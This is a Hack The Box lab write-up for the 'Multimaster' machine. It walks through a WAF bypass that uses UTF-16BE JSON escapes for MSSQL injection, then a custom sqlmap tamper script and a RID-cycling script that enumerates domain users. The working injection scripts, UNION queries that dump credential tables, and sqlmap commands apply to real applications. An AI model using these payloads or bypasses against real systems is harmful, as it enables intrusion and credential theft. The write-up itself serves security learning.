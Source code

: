 ```yaml
---
layout: post
title: "Playing with HTB{ Multimaster }"
date: 2020-09-19 21:00:00 +0300
author: snovvcrash
tags: [notes, hackthebox, machine, windows, mssql, sqli, sqlmap, sqlmap-tamper, rid-cycling]
published: true
---
```


Automate MS SQL injection with a custom sqlmap tamper script to bypass WAF through a UTF-16BE encoded JSON payload. Enumerate AD domain users via RID cycling from within the MS SQL DBMS.

<!--cut-->

<p align="right">
	<a href="https://www.hackthebox.eu/home/machines/profile/232"><img src="https://img.shields.io/badge/%e2%98%90-Hack%20The%20Box-8ac53e?style=flat-square" alt="htb-badge.svg" /></a>
	<span class="score-insane">7.7/10</span>
</p>

![banner.png](/assets/images/htb/machines/multimaster/banner.png)
{:.center-image}

![info.png](/assets/images/htb/machines/multimaster/info.png)
{:.center-image}

* TOC
{:toc}

# SQLi

## Manual exploitation

JSON format can understand various encodings [including UTF-16BE](https://stackoverflow.com/questions/11641983/encoding-json-in-utf-16-or-utf-32) like follows: `\u00XX`. The payload `' OR 1=1-- -`, for example, will turn into `\u0027\u0020\u004f\u0052\u0020\u0031\u003d\u0031\u002d\u002d\u0020\u002d` after being encoded. I will abuse that fact to bypass WAF (that blocked pretty much everything) and script the injection:

```python
#!/usr/bin/env python3

# Usage: rlwrap ./sqli.py

from binascii import hexlify

import requests

URL = 'http://multimaster.megacorp.local/api/getColleagues'
HEADERS = {'Content-Type': 'application/json;charset=utf-8'}

# SELECT id,name,position,email,src FROM users WHERE name LIKE '?%'

while True:
	payload = input('SQLi> ')
	payload = hexlify(payload.encode()).decode()
	payload = [r'\u00'+payload[i:i+2] for i in range(0, len(payload), 2)]
	payload = ''.join(payload)
	data = r'{"name":"' + payload + r'"}'
	proxies = {'http': 'http://127.0.0.1:8080'}
	resp = requests.post(URL, headers=HEADERS, data=data, proxies=proxies)
	try:
		print(resp.json()[0]['name'])
	except:
		pass
```

Then I will use MS SQL `STUFF()` function to emulate MySQL `group_concat()` behavior and dump Hub_DB..Logins table:

```
SQLi> 1337' union select '1',STUFF((SELECT ',' + name FROM master..sysdatabases FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
SQLi> 1337' union select '1',STUFF((SELECT ',' + name FROM Hub_DB..sysobjects WHERE xtype = 'U' FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
SQLi> 1337' union select '1',STUFF((SELECT ',' + Hub_DB..syscolumns.name + ':' + TYPE_NAME(Hub_DB..syscolumns.xtype) FROM Hub_DB..syscolumns, Hub_DB..sysobjects WHERE Hub_DB..syscolumns.id=Hub_DB..sysobjects.id AND Hub_DB..sysobjects.name='Logins' FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
SQLi> 1337' union select '1',STUFF((SELECT ',' + username + ':' + password FROM Hub_DB..Logins FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
```

![manual-exploit-out.png](/assets/images/htb/machines/multimaster/manual-exploit-out.png)
{:.center-image}

## sqlmap

To teach sqlmap how to exploit this vulnerability with WAF bypass I will write a custom tamper that converts my payload to UTF-16BE string:

```python
#!/usr/bin/env python3

# /usr/share/sqlmap/tamper/utf16be.py

"""
Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import re
from binascii import hexlify

from lib.core.data import kb
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
	pass

def tamper(payload, **kwargs):
	retVal = payload

	if payload:
		retVal = hexlify(retVal.encode()).decode()
		retVal = [r'\u00'+retVal[i:i+2] for i in range(0, len(retVal), 2)]
		retVal = ''.join(retVal)

	return retVal
```

Now I can dump all the databases:

```
root@kali:$ sqlmap --batch -u 'http://multimaster.megacorp.local/api/getColleagues' --method POST -H 'Content-Type: application/json;charset=utf-8' --data '{"name":"*"}' --dbms mssql -p name --delay 2 --technique U --union-cols 5 --union-char 1337 --tamper utf16be --dump --proxy http://127.0.0.1:8080
```

![sqlmap-out-1.png](/assets/images/htb/machines/multimaster/sqlmap-out-1.png)
{:.center-image}

![sqlmap-out-2.png](/assets/images/htb/machines/multimaster/sqlmap-out-2.png)
{:.center-image}

![sqlmap-out-3.png](/assets/images/htb/machines/multimaster/sqlmap-out-3.png)
{:.center-image}


And this is how the requests looks like for real (Burp Suite):

![request-in-burp.png](/assets/images/htb/machines/multimaster/request-in-burp.png)
{:.center-image}

However, after all this stuff I was pointed out that there was already a ready-made tamper script doing literally the same thing... Just had to google it a little bit more :expressionless:

Details here: [Bypassing WAFs with JSON Unicode Escape Sequences - TrustFoundry](https://trustfoundry.net/bypassing-wafs-with-json-unicode-escape-sequences/)

# RID Cycling

Unfortunately, these users were not enough to login at least somewhere, so I will write a script to brute force some RIDs from within the MS SQL Server:

```python
#!/usr/bin/env python3

import time
from binascii import hexlify
from base64 import b64encode, b64decode

import requests
import sid

URL = 'http://multimaster.megacorp.local/api/getColleagues'
HEADERS = {'Content-Type': 'application/json;charset=utf-8'}


class SQL:

	"""
	SELECT id,name,position,email,src FROM users WHERE name LIKE '?%'
	"""

	def inject(self, payload, mode='sname'):
		query = """1337' UNION SELECT '1',(SELECT CAST(N'' AS XML).value('xs:base64Binary(xs:hexBinary(sql:column("bin")))', 'VARCHAR(MAX)') Base64Encoding FROM (SELECT CAST(%s AS VARBINARY(MAX)) AS bin) AS bin_sql_server_temp),'3','4','5'-- -"""

		if mode == 'sname':  # input sid, output username
			func = "SUSER_SNAME(0x%s)"
			sid_mode = sid.SID_STRING
			payload = sid.sid(payload).binary()
			payload = hexlify(payload).decode()
			payload = payload.upper()
		elif mode == 'sid':  # input username, output sid
			func = "SUSER_SID('%s')"
			sid_mode = sid.SID_BASE64

		query = query % func % payload

		data = r'{"name":"' + self.waf_bypass(query) + r'"}'
		proxies = {'http': 'http://127.0.0.1:8080'}
		resp = requests.post(URL, headers=HEADERS, data=data)

		out = resp.json()[0]['name']

		if mode == 'sname':
			return b64decode(out.encode()).decode()
		elif mode == 'sid':
			return sid.sid(out, sid_mode).str()

	def waf_bypass(self, payload):
		payload = hexlify(payload.encode()).decode()
		payload = [r'\u00'+payload[i:i+2] for i in range(0, len(payload), 2)]
		payload = ''.join(payload)
		return payload


# print(SQL().inject('Administrator', mode='sid'))  # S-1-5-21-3167813660-1240564177-918740779-500

sql = SQL()
for rid in range(1000, 2000):
	s = f'S-1-5-21-3167813660-1240564177-918740779-{rid}'
	o = sql.inject(s)
	if o:
		print(f'{s} => {o}')
	time.sleep(2)
```

The script uses an SQL query to encode output of `SUSER_SNAME()` and `SUSER_SID()` to Base64 and then asks the server about the SIDs it knows. The basic (domain) SID is found by quering `SUSER_SID('Administrator')`. For converting between varbinary SID and common string SID I used a 3rd party module [python-sid](https://github.com/sspreitzer/python-sid).

![request-in-burp.png](/assets/images/htb/machines/multimaster/rid-brute-out.png)
{:.center-image}

# Refs

* [MSSQL Injection Cheat Sheet / pentestmonkey](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* [Simulating group_concat MySQL function in Microsoft SQL Server 2005? - Stack Overflow](https://stackoverflow.com/questions/451415/simulating-group-concat-mysql-function-in-microsoft-sql-server-2005)
* [The Mystery of the SUSER_NAME() and SUSER_SNAME() functions - sqlity.net](https://sqlity.net/en/1795/mystery-suser_name-suser_sname-functions/)
